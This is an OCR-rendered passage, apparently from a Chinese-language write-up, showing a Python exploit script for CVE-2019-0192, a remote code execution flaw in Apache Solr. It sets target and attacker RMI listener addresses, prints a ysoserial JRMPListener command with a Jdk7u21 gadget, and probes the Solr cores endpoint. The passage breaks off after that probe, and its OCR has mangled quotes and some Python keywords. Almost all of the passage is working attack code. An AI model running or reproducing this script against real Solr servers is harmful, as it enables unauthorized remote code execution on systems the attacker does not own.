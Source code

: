 ```
remote = "http://172.18.0.5:8983"
ressource = ""
RHOST = "172.18.0.1"
RPORT = "1099" 
```

然后执行一下脚本

```
import base64
import requests
import subprocess
import signal
import sys
import os
import time
import re

remote = “[http://172.18.0.5:8983](http://172.18.0.5:8983)”

ressource = “”

RHOST = “172.18.0.1”

RPORT = “1099”

proxy = {

}

def exploit(command):

print("\n Run the malicious RMI server using yoserial by running this command:")

print("\n java -cp ysoserial-master-ff59523eb6-1.jar ysoserial.exploit.JRMPListener " + RPORT + " Jdk7u21" + command)

if **name** == “**main**”:

print("\nCVE-2019-0192 - Apache Solr RCE 5.0.0 to 5.5.5 and 6.0.0 to 6.6.5\n")

print("[+] Checking if ressource available =>", end=’ ')

```
burp0_url = remote + "/solr/admin/cores?wt=json"
r = requests.get(burp0_url, proxies=proxy, verify=False, allow_redirects=False)
if r.status_code == 200:
    if r.json()['status'] == "":
        print("KO")
        sys.exit()
    else:
        a = list(r.json()['status'].keys())
        ressource = "/solr/" + a[0] + "/config"
        print(ressource)
else:
    print("KO")
    sys.exit()
